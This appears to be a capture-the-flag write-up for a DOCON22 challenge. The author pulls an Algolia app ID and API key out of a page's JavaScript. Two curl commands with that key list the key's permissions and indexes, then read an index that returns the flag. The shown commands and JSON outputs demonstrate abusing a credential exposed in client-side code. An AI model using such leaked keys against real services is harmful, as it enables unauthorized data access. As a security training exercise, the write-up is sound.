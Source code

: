 # Challenge description

Happy hunting!

https://punk-security.github.io/DOCON22_CTF2/

Author: PunkSecurity
-----------------------------------------------------------

in this page we can see the source code which is a js script 

![image](https://user-images.githubusercontent.com/58823465/166170882-47d38f4f-4af6-4ad7-b588-3957a81cbaf8.png)


So we know it uses the Algolia search engine API

The most interesting line in the code is 

```
searchClient: algoliasearch('SBD4QQONZU', '7086ec0b05107bb2dcc86f177e83c287'),
``` 

which turned out to be the APP_ID and API_KEY for Algolia, from the name of the challenge we can tell we got a "leaked" API_KEY that we can use to find interesting things

Reading throught the docs we find some curl commands we can try, so first off :

``` 
curl "https://SBD4QQONZU-dsn.algolia.net/1/keys/7086ec0b05107bb2dcc86f177e83c287?x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287"
```

Output :

```json
{
    "value": "7086ec0b05107bb2dcc86f177e83c287",
    "createdAt": 1651305758,
    "acl": ["search", "listIndexes"],
    "validity": 0,
    "indexes": ["punk_PUBLIC_INDEX", "punk_DOCON22"],
    "description": "DOCON22_CTF"
}
``` 

Algolia works with ACLs and Indexes and we can see we have some indexes and an ACL which can "listIndexes" and do a "search".

Using this curl command we can use the ListIndexes ACL

```
curl -X GET "https://SBD4QQONZU-dsn.algolia.net/1/indexes/punk_DOCON22?x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287"
```
Output

```json
{
    "hits": [{
        "flag": "DOCTF{pr0t3ct_th0s3_k3ys}",
        "objectID": "247439083e601_dashboard_generated_id",
        "_highlightResult": {
            "flag": {
                "value": "DOCTF{pr0t3ct_th0s3_k3ys}",
                "matchLevel": "none",
                "matchedWords": []
            }
        }
    }],
    "nbHits": 1,
    "page": 0,
    "nbPages": 1,
    "hitsPerPage": 20,
    "exhaustiveNbHits": true,
    "exhaustiveTypo": true,
    "query": "",
    "params": "x-algolia-application-id=SBD4QQONZU&x-algolia-api-key=7086ec0b05107bb2dcc86f177e83c287",
    "renderingContent": {},
    "processingTimeMS": 1
}
```

And there's our flag


``` Flag : DOCTF{pr0t3ct_th0s3_k3ys} ```

```
